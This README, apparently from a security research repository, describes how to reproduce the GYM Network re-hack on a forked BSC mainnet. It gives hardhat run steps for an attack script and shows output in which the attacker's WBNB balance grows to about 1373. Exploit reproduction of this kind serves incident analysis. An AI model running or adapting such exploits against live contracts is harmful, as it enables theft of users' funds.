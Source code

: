 # GYM Network re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/bsc/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
WBNB balance of attacker: 0.001
Exploiting...
Exploit complete.
WBNB balance of attacker: 1373.565008267780664495
```
This means the attack is complete
> The block height of the fork is 16798806


## Link
* https://twitter.com/BlockSecTeam/status/1512832398643265537
